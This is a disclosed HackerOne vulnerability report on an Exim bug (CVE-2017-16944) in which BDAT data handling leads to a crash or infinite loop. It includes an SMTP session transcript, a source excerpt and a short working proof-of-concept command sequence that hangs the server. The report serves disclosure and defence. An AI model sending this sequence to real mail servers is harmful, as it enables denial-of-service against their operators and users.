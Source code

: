 # Exim handles BDAT data incorrectly and leads to crash/hang

## Report Details
- **Report ID**: 296994
- **URL**: https://hackerone.com/reports/296994
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-12-11T15:59:10.910Z
- **Disclosed**: 2019-11-12T23:47:13.399Z

## Reporter
- **Username**: mehqq
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
## Original article is [here](https://devco.re/blog/2017/12/11/Exim-RCE-advisory-CVE-2017-16943-en/)

# Incorrect BDAT data handling leads to DoS 

### Vulnerability Analysis
When receiving data with BDAT command, SMTP server should not consider a single dot `‘.’` in a line to be the end of message. However, we found exim does in receive_msg when parsing header. Like the following output:
```
220 devco.re ESMTP Exim 4.90devstart_213-7c6ec81-XX Mon, 27 Nov 2017 16:58:20 +0800
EHLO test
250-devco.re Hello root at test
250-SIZE 52428800
250-8BITMIME
250-PIPELINING
250-AUTH PLAIN LOGIN CRAM-MD5
250-CHUNKING
250-STARTTLS
250-PRDR
250 HELP
MAIL FROM:<meh@some.domain>
250 OK
RCPT TO:<meh@some.domain>
250 Accepted
BDAT 10
.
250- 10 byte chunk, total 0
250 OK id=1eJFGW-000CB0-1R
```
As we mentioned before, exim uses function pointers to switch input source. This bug makes exim go into an incorrect state because the function pointer `receive_getc` is not reset. If the next command is also a BDAT, `receive_getc` and `lwr_receive_getc` become the same and an infinite loop occurs inside `bdat_getc`. Program crashes due to stack exhaustion.
[smtp_in.c: 546 bdat_getc](https://github.com/Exim/exim/blob/e924c08b7d031b712013a7a897e2d430b302fe6c/src/src/smtp_in.c#L546)
```
  if (chunking_data_left > 0)
    return lwr_receive_getc(chunking_data_left--);
```
This is not enough to pose a threat because exim runs a fork server. After a further analysis, we made exim go into an infinite loop without crashing, using the following commands.
```
# CVE-2017-16944 PoC by meh at DEVCORE

EHLO localhost
MAIL FROM:<meh@some.domain>
RCPT TO:<meh@some.domain>
BDAT 100
.
MAIL FROM:<meh@some.domain>
RCPT TO:<meh@some.domain>
BDAT 0 LAST
```
This makes attackers able to launch a resource based DoS attack and then force the whole server down.

## Impact

Make mail server process crash or hang. Attackers may launch a resource based DoS attack and then force the whole server down.

## Attachments
No attachments
